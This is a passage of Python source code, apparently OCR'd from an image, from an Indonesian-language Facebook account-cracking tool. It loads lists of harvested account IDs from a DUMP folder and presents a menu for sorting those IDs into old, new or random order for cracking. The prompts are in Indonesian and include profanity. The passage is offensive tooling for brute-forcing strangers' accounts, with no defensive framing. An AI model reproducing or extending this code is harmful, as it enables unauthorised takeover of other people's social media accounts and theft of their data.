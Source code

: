 				girang2 = girang.text.replace(" | Facebook","").replace(" Grup Publik","")
				if girang2=='Masuk Facebook':
					pass
				else:
					lah()
		except requests.exceptions.ConnectionError:
			try:
				time.sleep(31)
			except KeyboardInterrupt:
				lah()
		except KeyboardInterrupt:
			lah()
#-------------[ CRACK-FROM-FILE ]------------------#
def crack_file():
	try:vin = os.listdir('DUMP')
	except FileNotFoundError:
		print('>> File Tidak Ditemukan ')
		time.sleep(2)
		back()
	if len(vin)==0:
		print('>> Kamu Tidak Memiliki File Dump ')
		time.sleep(2)
		back()
	else:
		cih = 0
		lol = {}
		for isi in vin:
			try:hem = open('DUMP/'+isi,'r').readlines()
			except:continue
			cih+=1
			if cih<100:
				nom = ''+str(cih)
				lol.update({str(cih):str(isi)})
				lol.update({nom:str(isi)})
				print(f'>> %s. %s ({h} %s{x} idz )'%(nom,isi,len(hem)))
			else:
				lol.update({str(cih):str(isi)})
				print('['+str(cih)+'] '+isi+' [ '+str(len(hem))+' Account ]'+x)
				print('>> %s. %s ({h} %s {x}idz) '%(cih,isi,len(hem)))
		geeh = input('\n>> Pilih : ')
		try:geh = lol[geeh]
		except KeyError:
			print(f'{k}>> Pilih Yang Bener Kontol {x}')
			time.sleep(3)
			back()
		try:lin = open('DUMP/'+geh,'r').read().splitlines()
		except:
			print('>> File Tidak Ditemukan, Coba Lagi Nanti ')
			time.sleep(2)
			back()
		for xid in lin:
			id.append(xid)
		setting()
#-------------[ PENGATURAN-IDZ ]---------------#
def setting():
	print(f'{x}>> 1. FB KON ')
	print('>> 2. FB NEW ')
	print('>> 3. RANDOM ALL ID ')
	print('')
	hu = input('>> CHOSE : ')
	if hu in ['1','01']:
		for tua in sorted(id):
			id2.append(tua)
